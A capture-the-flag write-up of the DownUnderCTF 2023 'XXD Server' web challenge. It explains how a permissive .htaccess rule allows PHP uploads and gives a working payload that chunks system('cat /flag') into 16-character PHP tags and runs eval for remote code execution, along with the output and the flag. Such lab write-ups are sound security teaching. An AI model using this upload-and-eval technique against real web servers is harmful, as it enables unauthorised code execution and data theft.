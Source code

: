 ```yaml
---
title: DownUnderCTF 2023 - XXD Server
date: Sun Sep  3 01:49:09 PM +04 2023
categories: [Writeup]
tags: [ctf,downunderctf,downunderctf2023,web]
---
```


## Description

I wrote a little app that allows you to hex dump files over the internet.

Author: hashkitten

Application: [https://web-xxd-server-2680de9c070f.2023.ductf.dev](https://web-xxd-server-2680de9c070f.2023.ductf.dev/)<br>
Downloads: [xxd_server.zip](https://play.duc.tf/files/950953e79216c551f9140175be7e40e8/xxd_server.zip?token=eyJ1c2VyX2lkIjoyNDI4LCJ0ZWFtX2lkIjoxMjc1LCJmaWxlX2lkIjo4NH0.ZPRRpA.FSA5xv92AkYrA3DaBGoz17J8iDk)

## Analysis

The application allows you to upload files and view them as hexdump. 

There's interesting rule in `.htaccess`

```
# Everything not a PHP file, should be served as text/plain
<FilesMatch "\.(?!(php)$)([^.]*)$">
    ForceType text/plain
</FilesMatch>
```

So we are allowed to upload PHP scripts and get RCE. But there's limitation: 
```php
if (isset($_FILES['file-upload'])) {
	$upload_dir = 'uploads/' . bin2hex(random_bytes(8));
	$upload_path = $upload_dir . '/' . basename($_FILES['file-upload']['name']);
	mkdir($upload_dir);
	$upload_contents = xxd(file_get_contents($_FILES['file-upload']['tmp_name']));
	if (file_put_contents($upload_path, $upload_contents)) {
		$message = 'Your file has been uploaded. Click <a href="' . htmlspecialchars($upload_path) . '">here</a> to view';
	} else {
	    $message = 'File upload failed.';
	}
}
```

When we upload file it's placed into random folder, contents is converted to hexdump and served. If we upload php script it's not going to work due to hexdump. We still can get RCE, but we are limited to 16 characters due to hexdump. 

If you try to uplaod file with contents `<?= phpinfo() ?>` (16 characters), you'll get phpinfo page, this means we need to build payload using only 16 character per line.

[xxd-server-1](/assets/images/ductf/2023/xxd-server-1.png)

### Solution

```php
# echo system('cat /flag')
<?php $a="ech"?>
<?php $b="o s"?>
<?php $c="yst"?>
<?php $d="em("?>
<?php $e="'ca"?>
<?php $g="t /"?>
<?php $h="fla"?>
<?php $i="g')"?>
<?php $j=";  "?> <!-- Payload chunks -->
<?php $p=$a.$b?> <!-- Concatinate payload -->
<?php $p.=$c  ?>
<?php $p.=$d  ?>
<?php $p.=$e  ?>
<?php $p.=$g  ?>
<?php $p.=$h  ?>
<?php $p.=$i  ?>
<?php $p.=$j  ?>
<?php eval($p)?> <!-- Execute payload -->
```

Remove newlines:
```php
<?php  $a="ech"?><?php  $b="o s"?><?php  $c="yst"?><?php  $d="em("?><?php  $e="'ca"?><?php  $g="t /"?><?php  $h="fla"?><?php  $i="g')"?><?php  $j="; "?><?php  $p=$a.$b?><?php  $p.=$c  ?><?php  $p.=$d  ?><?php  $p.=$e  ?><?php  $p.=$g  ?><?php  $p.=$h  ?><?php  $p.=$i  ?><?php  $p.=$j  ?><?php  eval($p)?>
```

Output:
```
00000000: 3c3f 7068 7020 2461 3d22 6563 6822 3f3e 00000010: 3c3f 7068 7020 2462 3d22 6f20 7322 3f3e 00000020: 3c3f 7068 7020 2463 3d22 7973 7422 3f3e 00000030: 3c3f 7068 7020 2464 3d22 656d 2822 3f3e 00000040: 3c3f 7068 7020 2465 3d22 2763 6122 3f3e 00000050: 3c3f 7068 7020 2467 3d22 7420 2f22 3f3e 00000060: 3c3f 7068 7020 2468 3d22 666c 6122 3f3e 00000070: 3c3f 7068 7020 2469 3d22 6727 2922 3f3e 00000080: 3c3f 7068 7020 246a 3d22 3b20 2022 3f3e 00000090: 3c3f 7068 7020 2470 3d24 612e 2462 3f3e 000000a0: 3c3f 7068 7020 2470 2e3d 2463 2020 3f3e 000000b0: 3c3f 7068 7020 2470 2e3d 2464 2020 3f3e 000000c0: 3c3f 7068 7020 2470 2e3d 2465 2020 3f3e 000000d0: 3c3f 7068 7020 2470 2e3d 2467 2020 3f3e 000000e0: 3c3f 7068 7020 2470 2e3d 2468 2020 3f3e 000000f0: 3c3f 7068 7020 2470 2e3d 2469 2020 3f3e 00000100: 3c3f 7068 7020 2470 2e3d 246a 2020 3f3e 00000110: 3c3f 7068 7020 6576 616c 2824 7029 3f3e DUCTF{00000000__7368_656c_6c64_5f77_6974_685f_7878_6421__shelld_with_xxd!}DUCTF{00000000__7368_656c_6c64_5f77_6974_685f_7878_6421__shelld_with_xxd!}00000120: 0a .
```

> Flag: DUCTF{00000000__7368_656c_6c64_5f77_6974_685f_7878_6421__shelld_with_xxd!}
{: .prompt-tip }